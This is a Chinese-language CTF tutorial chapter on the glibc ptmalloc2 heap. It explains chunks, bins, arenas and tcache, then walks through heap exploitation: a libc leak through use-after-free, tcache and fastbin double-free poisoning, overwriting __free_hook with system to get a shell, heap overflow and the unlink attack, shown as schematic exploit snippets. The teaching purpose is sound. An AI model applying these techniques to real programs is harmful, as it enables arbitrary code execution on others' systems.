

# 第 10 天（上）：堆

事实上，由于软件保护技术的普及，之前的像格式化字符串漏洞啊，ROP 漏洞什么的，在 CTF 比赛上已经不太存在了。不过了解这种东西对以后的软件开发有非常重大的意义。

那么，在 CTF 方面呢？俗话说，如果一个东西能运行，它就能被我们给草了。

## 堆管理器

不同的库可能有不同的堆管理实现，例如：

- ptmalloc2
- jemalloc
- libmalloc
- tcmalloc
- dlmalloc

Linux 的 glibc 的堆管理器名字叫 ptmalloc2。在这里，我们也暂时只研究它。

## 堆从哪儿来？

在 glibc 中，初始的堆空间由 brk 系统调用产生。

如果 malloc 申请的空间超过了当前可用的空闲内存，glibc 会继续使用 brk 系统调用扩展堆空间，或使用 mmap 系统调用申请内存。

如果用户申请的内存太大，glibc 会通过 mmap 系统创建一个匿名映射给程序。这一段在 libc 上方。

## 基本单位 chunk

Chunk 是内存分配的基本单位。

> chunk n. 厚块，厚片

- allocated chunk：已分配的 chunk。
- free chunk：已释放的 chunk。
- top chunk：位于整个 heap 中最高地址处的**未分配的**内存。
- last remainder chunk：一个 chunk 被切割后剩下的部分。

```cpp
struct malloc_chunk {
	INTERNAL_SIZE_T mchunk_prev_size; /* Size of previous chunk (if free). */
	INTERNAL_SIZE_T mchunk_size; /* Size in bytes, including overhead. */
	
	struct malloc_chunk* fd; /* double links -- used only if free. */
	struct malloc_chunk* bk;
	
	/* Only used for large blocks: pointer to next larger size. */
	struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
	struct malloc_chunk* bk_nextsize;
};
```

这是 chunk 内部的数据结构。可以发现里头的双向链表。

（在不同的 chunk 类型下，有些成员变量可能没有意义。）

size：当前的 chunk 大小。

标志位（size 字段的最低 3 位）：

- N：NON_MAIN_ARENA flag，表示 chunk 是否属于主线程。
- M：IS_MMAPPED flag，表示是否由 mmap 分配。
- P：PREV_INUSE flag，前一个 chunk 是否处于使用状态。

prev_size / prev_data：

- 如果前一个 chunk 是 allocated chunk（P = 1），则此字段属于前一个 chunk 可用的 data 部分。
- 如果前一个 chunk 是 free chunk（P = 0），则此字段表示前一个 chunk 的 size（prev_size）。这是为了快速定位上一个 chunk 在哪个地方。

如果当前 chunk 已经被 free 到 bin 中，

- fd：指向 bin 中后一个空闲块的指针。
- bk：指向 bin 中前一个空闲块的指针。

它们指向的地方是那个块的 size 之后的那个位置。后一个和前一个均不一定是物理相邻的！


如果当前 chunk 已经被 free 到 large bin 中，

- fd_nextsize：指向 large bin 中后一个与自己大小不同的块的指针。
- bk_nextsize：指向 large bin 中前一个与自己大小不同的块的指针。

这一对家伙有什么用呢？

## 对齐

事实上，关于 chunk 的指针问题：

```cpp
char *p = malloc(0x20);
strcpy(p, "AAAAAAAA");
```

```plain
> heap chunks
Chunk(addr=0x55dfe621a2a0, size=0x30, ...
> x/8gx 0x55dfe621a290
0x55dfe621a290: 0x0000000000000000 0x0000000000000031
0x55dfe621a2a0: 0x4141414141414141 0x0000000000000000
0x55dfe621a2b0: 0x0000000000000000 0x0000000000000000
0x55dfe621a2c0: 0x0000000000000000 0x0000000000020d41
```

为什么 malloc(0x20) 分配了一个 size 为 0x30 的 chunk 呢？

因为在内存中，堆块大小要按 0x10 字节对齐，并且 chunk 最小为 0x20 字节；它还要包含 prev_size 和 size 这些不能作为数据部分的地方。

在 glibc 中，对齐由 malloc.c 中的 request2size 宏实现。可以简单将该操作理解为下表中的映射，即：实际 size = 请求的 size + 8 后对应的下一个 0x10 对齐的值。

|请求大小|实际分配大小|
|:--:|:--:|
|0x00 ~ 0x18|0x20|
|0x19 ~ 0x28|0x30|
|0x29 ~ 0x38|0x40|
|...|...|
|0xE9 ~ 0xF8|0x100|
|...|...|

## 堆空间块的管理结构：bin

> bin n. 垃圾桶

bin 是堆空闲块的管理结构，是由 free chunk 组成的链表。

当 allocated chunk 被释放后，会放入 bin 中或者合并到 top chunk 中。

bin 的主要作用是加快分配速度。

bin的具体分类：

- fast bin
- unsorted bin
- small bin
- large bin
- tcache bin

其中：

- fast bin、tcache bin 按照 LIFO（last in first out）单链表组织，采用头插法。
- unsorted bin、small bin 按照 FIFO（first in first out）双链表组织，采用头插法。
- large bin 按照双链表组织，插入节点时会保证 size 从大到小排序。

## 结构体 arena

arena 是用于管理堆信息的结构体。

主线程的 arena 称为 main_arena，main_arena 保存在 libc 的数据段中。

```cpp
typedef struct malloc_chunk *mfastbinptr;
typedef struct malloc_chunk *mchunkptr;
struct malloc_state {
	/* Serialize access. */
	__libc_lock_define (, mutex);
	
	/* Flags (formerly in max_fast). */
	int flags;

	/* Set if the fastbin chunks contain recently inserted free blocks. */
	/* Note this is a bool but not all targets support atomics on booleans. */
	int have_fastchunks;

	/* Fastbins */
	mfastbinptr fastbinsY[NFASTBINS];

	/* Base of the topmost chunk -- not otherwise kept in a bin */
	mchunkptr top;

	/* The remainder from the most recent split of a small request */
	mchunkptr last_remainder;

	/* Normal bins packed as described above */
	mchunkptr bins[NBINS * 2 - 2];

	/* Bitmap of bins */
	unsigned int binmap[BINMAPSIZE];

	/* Linked list */
	struct malloc_state *next;

	/* Linked list for free arenas. Access to this field is
	serialized by free_list_lock in arena.c. */
	struct malloc_state *next_free;

	/* Number of threads attached to this arena. 0 if the arena is on
		the free list. Access to this field is serialized by
		free_list_lock in arena.c. */
	INTERNAL_SIZE_T attached_threads;

	/* Memory allocated from the system in this arena. */
	INTERNAL_SIZE_T system_mem;
	INTERNAL_SIZE_T max_system_mem;
};
```

我们需要注意的是 fastbinsY 和 bins。

fastbinsY：fast bin 的管理结构。它用于处理不同 size 的 fast bin 链表。

bins：存放所有大小范围的 free chunk 的链表的头节点。它的长度为 127：

- bin[0] 是 unsorted bin 的头节点。
- bin[1] ~ bin[62] 是 small bin 的。
- bin[63] ~ bin[126] 是 large bin 的。

存取时，从头节点插入，从尾节点去除。

### fast bin 的数据结构

fast bin 的组织形式：将小 chunk（大小位于[0x20, 0x80]范围中）单独管理，以 size 为单位，以单向链表的形式组织起来，链表长度不限。链表通过 fd 指针链接。

在 fast bin 中，chunk 的 bk 字段是未使用的，因为是单向链表。

```plain
fastbinY[0] (0x20) -(fd)-> chunk 0x20 -(fd)-> chunk 0x20 -(fd)-> null
fastbinY[1] (0x30) null
...
fastbinY[6] (0x80) -(fd)-> chunk 0x80 -(fd)-> null
```

### unsorted bin 的数据结构

unsorted bin 中 free chunk 的大小没有顺序，任何 size 的 chunk 都可能被放入到这个 bin 中。

unsorted bin 主要用于存放刚被释放的堆块，以及大堆块分配后剩余的堆块。

在实践中，一个被释放的 chunk 常常很快就会被重新使用，所以将其先加入 unsorted bin 可以加快分配的速度。

它是从 bins[0] 开始的双向链表。

### small bin 的数据结构

small bin 使用 main_arena 的 bins[1] ~ bins[62]，管理大小在 [0x20,0x400) 的 free chunk。

和 fast bin 一样，这里的 bins 中，每个 entry 对应一种大小。但是这里就是双向链表了。

### large bin 的数据结构

large bin 使用 main_arena 的 bins[63] ~ bins[126]，管理大小大于等于 0x400 的所有 free chunk。

在 large bin 中，一个 bin 对应多个 size（这是没有办法的事情）。



这就是为什么要有 fd_nextsize 和 bk_nextsize。从 large bin 中取 chunk 时，会选择大小上最合适的（最小的装得下的 chunk。这个叫 best-fit）。单用 fd 和 bk 来找这个合适的 chunk 就比用 fd_nextsize 和 bk_nextsize 慢得多了。并且，取 chunk 的时候会优先选择不在 nextsize 链表中的 chunk，以提高效率，否则又要改 nextsize 链表。

### tcache bin 的数据结构

从 glibc-2.26 开始，ptmalloc2 引入了 tcache 结构，目的是为了提升堆管理的性能。

tcache 全称 Thread Local Caching，为每个线程创建一个缓存，用于管理一些小的 free chunk。

每个线程默认使用 64 个单链表结构的 bins，每个 bins 最多存放 7 个 chunk，操作方式和 fast bin 的差不多；并且也是 LIFO。

```cpp
typedef struct tcache_perthread_struct
{
	uint16_t counts[TCACHE_MAX_BINS];
	tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

entries 数组和 fastbinsY 差不多：每个 bin 都是一个单向链表。

counts 数组对相应的 tcache bin 中的 chunk 数量进行记录。

tcache 的管理结构不在 main_arena 中，而是初始化在 heap 最开始的位置。即 glibc 会动态分配一个特殊的 chunk，以作为 tcache struct 使用。

在 gdb 里面用 heap chunks 查看堆块的时候，第一个大小为 0x250 或者 0x290 的 chunk 就是它。

## malloc 和 free

### malloc

1. 将大小按规则对齐，得到实际要分配的大小 size。
2. 检查 size 是否符合 tcache bin 的大小。如果是，检查对应 size 的 entry 是否有 free chunk。如果有，则分配返回。
3. 检查 size 是否符合 fast bin 的大小。如果是，检查对应 size 的 entry 是否有 free chunk。如果有，
则分配返回。
4. 循环遍历 unsorted bin，寻找可用的 free chunk。
	- 如果遍历到的 free chunk size 正好和所 需size 相等，则分配返回
	- 如果遍历到的 free chunk size 和所需 size 不等，则将其从双链表中解链（unlink），插入到对应大小的 bins 中。
5. 根据 size，以 best-fit 的方式，找到相应的 small bin 或者 large bin。
	- 对于 small bin，如果 size 正好合适，那么 unlink 之后，直接将该 chunk 返回给用户；否则进行切割，剩下的部分重新插入到 unsorted bin 中。
	- 对于 large bin，由于一个 bin 通常对应几个 size，那么根据 fd_nextsize 的顺序，以 size 从大到小的顺序遍历 chunk，同样采取 best-fit 的方式寻找合适的 chunk，后续行为与 small bin 类似。
6. 使用 top chunk，将 top chunk 进行切割：
	- 如果 top chunk size 足够，则将切割下来的部分返回，剩下的部分继续作为 top chunk。
	- 如果 top chunk size 不够，则需要通过 sysmalloc 申请更多的堆空间……

### free

1. 如果 free chunk 的 size 属于 tcache 范围内，且对应大小的 tcache bin 没有满，则插入到相应的 tcache bin 中去。
2. 如果 free chunk 的 size 属于 fast bin 范围内，且对应大小的 tcache bin 满了，则插入到 fastbin 中去。
3. 如果上述条件均不满足，则通过该 chunk 的 prev_inuse 标志位检查是否可以前后向合并：
	- 如果可以合并，则将需要被合并的 chunk 先 unlink 下来，合并成一个更大的 chunk 后再插入到 unsorted bin 中（或合并到 top chunk 里面）。
	- 如果不可以合并，则将该 chunk 直接插入到 unsorted bin 中。
4. 如果被 free 的 chunk 是 mmap 麻出来的 chunk，那么调用 munmap 直接返回给系统。

## 堆攻击

```plain
RELRO:   Full RELRO
Stack:   Canary found
NX:      NX enabled
PIE:     PIE enabled
```

对面：咋样？你能秒我？

仙布管对面这个嚣张的态度，我们的主要目标仍然是劫持对面的函数指针。

malloc、free、realloc 三个函数有自己的 hook 函数，以函数指针的形式存放在 libc 的数据段中，分别叫做 __malloc_hook、__free_hook、__realloc_hook。

**在 libc-2.34 之前**，如果对应 hook 函数非空，则这三个函数会转为执行 hook 函数，而非原来的逻辑。

在这三个 hook 函数中，攻击 __free_hook 是最稳定的：free 函数接受一个指针参数，而 system 函数也接受一个指针参数。

如果我们已经将 __free_hook 劫持为 system，则触发时只需要在一个 chunk 中写上 /bin/sh 并把它 free 了，就可以稳定执行 system("/bin/sh") 了！

与此同时，对于 __malloc_hook 来说，由于 malloc 的参数是一个 size_t 类型的值，我们一般不能将其劫持为 system，除非我们能将一个地址这么大的值作为 size 传给 malloc，但是这在一个程序中通常是无法做到的。一般是劫持为 one gadget。

### 常见的程序错误

堆溢出：

```cpp
char *p = malloc(0x20);
read(0, p, 0x100);
```

UAF（Use After Free）：

```cpp
char *p = malloc(0x20);
free(p);
puts(p);
```

Double Free：

```cpp
char *p = malloc(0x20);
free(p);
free(p);
```

### 堆攻击的方法

任意地址读：leak libc，获取 system 等函数的地址。

任意地址写：将 system 等函数的地址写入 hook 函数指针。

get shell：调用 malloc 或 free 函数，从而调用 hook 函数劫持控制流。

### UAF 的应用

如果堆指针在释放后未被置空，则会形成悬空指针（dangling pointer）。

当下次访问该指针时，仍然能够访问拿到原指针所指向的堆数据，造成信息泄露或信息修改。

#### 信息泄露

既然 main_arena 保存在 libc 的数据段中，而 bins 里面的 chunk 有指向对应 entry 的指针……那我们能不能把 libc 的地址给草出来呢？

```python
val[0] = malloc(0x500)
val[1] = malloc(0x20)  # val[0] 的那一块脱离了 top chunk
free(val[0])           # val[0] 的这一块变成了 unsorted bin chunk
show(val[0])           # 泄露了！
```

对于上面的 val[0]，因为它是第一个出现的 unsorted bin chunk，那么它的 fd 和 bk 都会指向 bin[0]。就是 main_arena 的那个 bin[0]。

而 main_arena 是在 libc 里面的。

```plain
gef > vmmap libc
```

```python
main_arena_ofs = u64(p.recv(...))
libc_base = main_arena_ofs - ... + ...
__free_hook = libc_base + libc.sym["__free_hook"]
system = libc_base + libc.sym["system"]
```

#### 信息修改

如果我们可以任意修改一个 chunk 的信息，我们就可以控制其中的 fd、bk 等指针。

```plain
gef > heap bins
```

```python
val[0] = malloc(0x18)
val[1] = malloc(0x18)
free(val[1])                 # tcache[0] = val[1], count[0] = 1
free(val[0])                 # tcache[0] = val[0] -> val[1], count[0] = 2
edit(val[1], __free_hook)    # tcache[0] = val[0] -> __free_hook
val[2] = malloc(0x18)        # tcache[0] = __free_hook, val[2] = val[0]
val[3] = malloc(0x18)        # tcache[0] = NULL, val[3] = __free_hook
edit(val[3], p64(system))    # __free_hook = system
edit(val[4], "/bin/sh\x00")
free(val[4])                 # free(val[4]) = system(val[4]) = system("/bin/sh\x00")
```

### fastbin Double Free 的应用

glibc 对于 fastbin 有一些检查。

```cpp
if (__builtin_expect (old == p, 0))
	malloc_printerr ("double free or corruption (fasttop)");
```

即当前要 free 的 chunk 不能和 fastbin 的头 chunk 相同。

但是既然如此，那么在 free 同一个 chunk 两次的过程之间，free 一个其它 chunk 不就可以了？

```python
free(val[0])       # fastbinY[0] -(fd)-> val[0]
free(val[1])       # fastbinY[0] -(fd)-> val[0] -(fd)-> val[1]
free(val[0])       # fastbinY[0] -(fd)-> val[0] -(fd)-> val[1] -(fd)-> val[0] 成环啦！
val[0] = malloc()  # fastbinY[0] -(fd)-> val[1] -(fd)-> val[0] -(fd)-> val[1] 环移了个位！
write(val[0], ...) # fastbinY[0] -(fd)-> val[1] -(fd)-> val[0] -(fd)-> EVIL FUNCTION
```

### tcache Double Free 的应用

tcache 加点的时候全部加到速度上去了，在 glibc 2.27 和之前，安全性的相关检查很少。

但是在这之后，tcache 添加了一个检测逻辑：

```cpp
typedef struct tcache_entry
{
	struct tcache_entry *next;
	/* This field exists to detect double frees. */
	struct tcache_perthread_struct *key;
} tcache_entry;
```

在某一个 chunk 被 free，放入 tcache bin 中时，其 key 成员会被置为 tcache_perthread_struct 的地址。如果一个 chunk 被 free 的时候，检查到其 key 正好是 tcache_perthread_struct 的地址，且该 chunk 在 tcache bin 的链表中，那么就会被发现 double free，然后程序就没了。

但是，如果我们可以干掉 key 的话……

```python
val[0] = malloc(0x18)
val[1] = malloc(0x18)
val[2] = malloc(0x18)
free(val[2])                   # tcache[0] = parr[2], count[0] = 1
free(val[0])                   # tcache[0] = parr[0] -> parr[2], count[0] = 2
edit(val[0], p64(0) + p64(0))  # 干掉 key
free(val[0])                   # tcache[0] = parr[0] -> parr[0] -> parr[2], count[0] = 3
val[0] = malloc(0x18)          # tcache[0] = parr[0] -> parr[2], count[0] = 2
```

接下来的操作和 UAF 的差不多。

### 堆溢出的应用

```cpp
p = malloc(...);
memcpy(p, "AAAAAAAABBBBBBBBCCCCCCCC\xbe\xba\xfe\xca\xef\xbe\xed\xdefuck you");
```

```plain
     |                     | size = 0x21        |
p -> |              AAAAAAAABBBBBBBB            |
     |      CCCCCCCCC      | 0xdeadbeefcafebabe |
     |                "fuck you"                |
```

### Unlink Attack 的应用

unlink 就是把一个双向链表中的空闲块拿出来。但是如果此时 chunk 的 fd 和 bk 都已经被劫持了呢？

```plain
FD = P->fd    => FD = addr1
BK = P->bk    => BK = addr2
FD->bk = BK   => addr1->bk = addr2
              => *(addr1+0x18) = addr2
BK->fd = FD   => addr2->fd = addr1
              => *(addr2+0x10) = addr1
```
